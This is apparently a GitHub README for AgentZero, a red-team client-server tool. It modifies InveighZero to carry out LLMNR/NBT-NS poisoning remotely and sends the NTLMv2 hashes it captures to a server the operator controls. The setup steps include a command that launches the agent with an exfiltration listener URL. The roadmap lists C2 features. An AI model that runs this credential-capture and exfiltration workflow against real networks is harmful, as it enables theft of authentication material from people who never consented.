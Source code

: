 ![GitHub Repo stars](https://img.shields.io/github/stars/HuskyHacks/AgentZero?style=social)
![GitHub last commit](https://img.shields.io/github/last-commit/HuskyHacks/AgentZero)
![GitHub](https://img.shields.io/github/license/HuskyHacks/AgentZero)
![GitHub language count](https://img.shields.io/github/languages/count/HuskyHacks/AgentZero)
![GitHub top language](https://img.shields.io/github/languages/top/huskyHacks/AgentZero)

# AgentZero
A client-server tool for remote LLMNR/NBTNS poisoning by Matt Kiely (HuskyHacks) and Aaron Hobdy.

## WARNING
This tool does not yet provide any encryption of data on the wire. **Do not use this to transmit captured authentication material outside of a private, internal network.** The dev team is not liable if you use this in a production environment and leak plain text authentication data out to the Internet.

This tool is also not currently built with security best practices in mind. There is no authentication mechanism for the main web server yet. Keep this in mind before hosting this tool on your network. **Never host this on an internet facing server.**

### Description
Inveigh is the work of Kevin Robertson and is one of the best tools available for poisoning LLMNR/NBTNS in a target network. Traditionally, tools like Responder.py have been used to respond to LLMNR/NBTNS and force the client to attempt an authentication to the responder server, which allows an attacker to capture the NTLMv2 hash of the client. However, this method has one big shortfall: the attacker must be present on the network where Responder is running, which is not always feasible. Inveigh and InveighZero have the interesting capability of being able to be run via PowerShell or as a reflective .NET assembly, respectively. This allows an operator to gain a foothold with a C2 agent, load Inveigh into their C2 agent's session, and use it to respond to LLMNR on the target network.

Recently, we found that we were running Inveigh as a .NET assembly through a C2 agent in order to recover NTLMv2 hashes remotely. This works great on platforms like Covenant and Cobalt Strike! Running Inveigh through a C2 agent means that an operator does not have to be present on the subnet where they want to recover NTLMv2 hashes. We wanted to make this process into a stand-alone client/server tool and hopefully define it as its own method of extracting authentication information. Thus, **AgentZero** was born.

**AgentZero** uses a modified version of the InveighZero source code to create an agent binary that can exfiltrate capture authentication messages from an internal network out to an operator-controlled server. This allows for remote LLMNR poisoning that can recover cryptographic authentication messages.  

### Quick Install Guide

UNDER CONSTRUCTION

1. `sudo git clone https://github.com/HuskyHacks/AgentZero.git`
2. `cd AgentZero`
3. `sudo docker-compose up --build`
4. Compile the InveighZero-master binary that is packeged in the code.
5. Drop this binary to disk or run as an assembly with the `-EXFILURL` argument: `InveighZero.exe -EXFILRUL http://[ip]:1776/listener`
6. Wait for (or force) an LLMNR/NBTNS event
7. Captured hashes are stored in the dockerized DB.

### Roadmap
v.01
- [x] Python socket server that accepts input and writes to log file
- [x] InveighZero exe that sends captured NTLMv2 hash to server
- [x] Flask App
- [x] Stores in database

v.02
- [ ] Encoding/encrypting for exfil
  - [x] Base64 encoding
  - [ ] Asymmetrical Key exchange at compilation/agent check in
- [ ] Simple front-end login, set password on server at docker build
    -[ ] Server handles sessions, login actually functions
- [x] Dynamically compile InveighZero with IP address and port
  - [x] Compilation function
  - [x] Controlled from UI

future state
- [ ] Cool art for github page
- [ ] Multi-threaded, multi-agent handling
- [ ] Front end web client for multi-agent config/administration
- [ ] Dynamic generation for listener URL
- [ ] "Dashboard" for default view with DAG representation of agents 
- [ ] Shellcode gen for agent
- [ ] Basic command execution
- [ ] Malleable C2

## Acknowledgements
The dev team would like to thank Kevin Robertson for making an incredible program! Thanks also goes out to the devs of Covenant, Cobalt Strike, Empire, and all other C2s that we love.

## Disclaimer
There is no way to make an offensive security relevant research tool and release it open source without the possibility of it falling into the wrong hands. **This tool is only to be used for legal, ethical purposes including, but not limited to, research, security assessment, education. The dev team is not responsible for the misuse of this tool by anyone if used for illegal/unethical purposes.**

The graphic work in this repository is fan art. Likeness to real-world copyrighted material should not be inferred. No animals were harmed in the making of this code base (although Cosmo keeps climbing on my keyboard and I have to put him over on the couch, which I'm sure must feel like torture to him).
